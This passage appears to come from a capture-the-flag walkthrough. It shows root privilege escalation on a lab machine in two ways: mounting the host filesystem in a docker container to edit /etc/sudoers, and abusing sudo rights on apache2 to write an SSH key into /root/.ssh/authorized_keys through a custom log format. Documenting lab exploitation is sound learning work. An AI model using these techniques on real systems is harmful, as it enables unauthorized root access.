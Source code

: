 ```console
www-data@ubuntu-jammy:/tmp$ docker image ls
REPOSITORY      TAG       IMAGE ID       CREATED        SIZE
robots-bot      latest    9b676da70d1d   6 months ago   1.49GB
robots-webapp   latest    748bf229f771   6 months ago   507MB
mariadb         latest    92520f86618b   7 months ago   407MB
www-data@ubuntu-jammy:/tmp$ docker run -v /:/mnt --rm -it mariadb sh
```

Within this container, we have full access to the host's file system as `root` at the `/mnt` directory, which we can utilize to simply read the root flag or modify the `/etc/sudoers` file to give the `dolivaw` user full sudo privileges, as shown below:

```console
# wc -c /mnt/root/root.txt
37 /mnt/root/root.txt
# echo 'dolivaw ALL=(ALL) NOPASSWD: ALL' >> /mnt/etc/sudoers
```

After this, checking the `sudo` privileges for the `dolivaw` user, we can see the change we made and use it with `su` to easily get a shell as root and read the flag once more:

```console
dolivaw@ubuntu-jammy:~$ sudo -l
Matching Defaults entries for dolivaw on ubuntu-jammy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dolivaw may run the following commands on ubuntu-jammy:
    (ALL) NOPASSWD: /usr/sbin/apache2
    (ALL) NOPASSWD: ALL
dolivaw@ubuntu-jammy:~$ sudo su -
root@ubuntu-jammy:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu-jammy:~# wc -c /root/root.txt
37 /root/root.txt
```

### Intended: Arbitrary File Write with Logging

Another way, which is also the intended method by the room author, is to utilize the logging functionality of `apache2`.

`apache2` allows us to declare custom log formats, which is what gets written to the log files. Along with the path to those log files, this functionality essentially enables arbitrary file write.

One of the easiest ways to turn this arbitrary file write into a shell as root would be to declare a custom log format that simply consists of a public SSH key, with the log file where this format gets written being `/root/.ssh/authorized_keys`, as shown below:

```
LoadModule mpm_event_module /usr/lib/apache2/modules/mod_mpm_event.so
LoadModule authz_core_module /usr/lib/apache2/modules/mod_authz_core.so

ServerName localhost
Listen 8080

ErrorLog "/tmp/error.log"

LogFormat "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKcX+23zd9TBMVL+b9htX2Ou1TRwjGcpky6brlTjpvMc kali@kali" jxf
CustomLog /root/.ssh/authorized_keys jxf
```
{: file="/tmp/log.conf" }
